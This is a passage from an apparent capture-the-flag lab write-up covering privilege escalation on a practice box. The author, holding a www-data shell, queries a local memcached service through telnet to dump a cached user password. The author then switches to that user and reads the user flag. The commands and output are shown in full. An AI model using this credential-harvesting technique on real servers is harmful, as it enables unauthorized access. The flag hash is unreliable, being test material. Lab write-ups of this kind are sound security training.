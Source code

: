 ## Privilege Escalation

Another search into memcached brings up a telnet connection. So we can run telnet directly from the compromised server.
```
<r.thm/wordpress/wp-content/themes/twentyseventeen$ telnet 127.0.0.1 11211
telnet 127.0.0.1 11211
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.

stats items ## COMMAND 1 - We notice there's only one id. (id 1)

STAT items:1:number 5
STAT items:1:age 2999
STAT items:1:evicted 0
STAT items:1:evicted_nonzero 0
STAT items:1:evicted_time 0
STAT items:1:outofmemory 0
STAT items:1:tailrepairs 0
STAT items:1:reclaimed 0
STAT items:1:expired_unfetched 0
STAT items:1:evicted_unfetched 0
STAT items:1:crawler_reclaimed 0
STAT items:1:crawler_items_checked 0
STAT items:1:lrutail_reflocked 0

stats cachedump 1 0 ## COMMAND 2 - Display everything in id(1)
get user            ## COMMAND 3
get password        ## COMMAND 4
VALUE password 0 15
OrkAi[REDACTED]
```
Nice, we now have Orka's password. Let's try to switch users.
```
www-data@osboxes:/var/www$ su Orka
su Orka
Password: OrkA[REDACTED]
Orka@osboxes:/var/www$ 
Orka@osboxes:/var/www$ cd ~
cd ~
Orka@osboxes:~$ ls
ls
Desktop    Downloads  Pictures  Templates  Videos
Documents  Music      Public    user.txt
Orka@osboxes:~$ cat user.txt
cat user.txt
1a26a6d51c0172400add0e297608dec6
Orka@osboxes:~$ 
```
Great! We now have the user flag.
